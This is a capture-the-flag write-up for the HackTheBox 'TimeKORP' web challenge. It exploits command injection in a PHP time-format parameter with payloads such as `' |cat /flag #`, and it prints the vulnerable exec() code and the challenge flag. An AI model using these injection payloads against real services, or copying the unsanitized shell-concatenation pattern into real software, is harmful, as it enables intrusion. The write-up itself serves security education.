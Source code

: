 ```yaml
---
name: TimeKORP (2024)
event: HackTheBox Cyber Apocalypse CTF 2024
category: Web
description: Writeup for TimeKORP (Web) - HackTheBox Cyber Apocalypse CTF (2024) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# TimeKORP

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/-vhl8ixthO4/0.jpg)](https://www.youtube.com/watch?v=-vhl8ixthO4?t=99 "HackTheBox Cyber Apocalypse '24: Time KORP (web)")

## Description

> TBD

## Solution

First things first; download the source and run the local docker instance for easy/fast debugging.

It's also a good idea to check the site functionality before reviewing the source code so that things fall into place more easily.

The site displays the time (`http://127.0.0.1:1337/?format=%H:%M:%S`) or date (`http://127.0.0.1:1337/?format=%Y-%m-%d`).

Opting for the lazy route, I check the burp scanner and find some interesting results. The first is XSS (reflected), presumably not much use as there was no admin bot to submit a URL to. The second is command injection 👀

Here's the URL-decoded [PoC](http://127.0.0.1:1337/?format=%25H%3a%25M%3a%25S%7cecho%20kefbjki4ag%20d6tyxfigki%7c%7ca%20%23'%20%7cecho%20kefbjki4ag%20d6tyxfigki%7c%7ca%20%23%7c%22%20%7cecho%20kefbjki4ag%20d6tyxfigki%7c%7ca%20%23) from burp:

{% code overflow="wrap" %}
```
/?format=%H:%M:%S|echo kefbjki4ag d6tyxfigki||a #' |echo kefbjki4ag d6tyxfigki||a #|" |echo kefbjki4ag d6tyxfigki||a #
```
{% endcode %}

The result indicates that the `echo kefbjki4ag d6tyxfigki` command did indeed execute.

{% code overflow="wrap" %}
```html
</span> kefbjki4ag d6tyxfigki<span class='text-muted'>.</span>
```
{% endcode %}

The payload syntax/length is a little confusing so I keep removing elements and re-testing to ensure the command still executes. The attack can be simplified to:

{% code overflow="wrap" %}
```
/?format=%H:%M:%S' |ls #
```
{% endcode %}

If we [URL-encode it](http://127.0.0.1:1337/?format=%25H%3a%25M%3a%25S'+|ls+%23) it lists the `views` directory. If we look around for a while we might not see the flag. Let's just check the source code and see the Dockerfile has the following line.

{% code overflow="wrap" %}
```dockerfile
# Copy flag
COPY flag /flag
```
{% endcode %}

Therefore, we can print the flag with [this payload](http://127.0.0.1:1337/?format=%25H%3a%25M%3a%25S'+|cat+/flag+%23) to retrieve the flag.

{% code overflow="wrap" %}
```
/?format=%H:%M:%S' |cat /flag #
```
{% endcode %}

We've already solved the challenge but why not review the vulnerable source code. Notice `TimeController.php` processes our vulnerable GET parameter (`format`).

{% code overflow="wrap" %}
```php
<?php
class TimeController
{
    public function index($router)
    {
        $format = isset($_GET['format']) ? $_GET['format'] : '%H:%M:%S';
        $time = new TimeModel($format);
        return $router->view('index', ['time' => $time->getTime()]);
    }
}
```
{% endcode %}

It passes our user input (🚫) to the `TimeModel.php` constructor which then executes the command.

{% code overflow="wrap" %}
```php
<?php
class TimeModel
{
    public function __construct($format)
    {
        $this->command = "date '+" . $format . "' 2>&1";
    }

    public function getTime()
    {
        $time = exec($this->command);
        $res  = isset($time) ? $time : '?';
        return $res;
    }
}
```
{% endcode %}

So, assuming we submit `format=%H:%M:%S' |cat /flag #`, the `command` property of the object will be:

{% code overflow="wrap" %}
```bash
date '%H:%M:%S'' |cat /flag # 2>&1
```
{% endcode %}

Due to us closing off the string and inserting a pipe character, we were able to inject a malicious command! Crucially, we also needed to add a hash character afterwards, to prevent the output from being redirected.

Flag: `HTB{t1m3_f0r_th3_ult1m4t3_pwn4g3}`
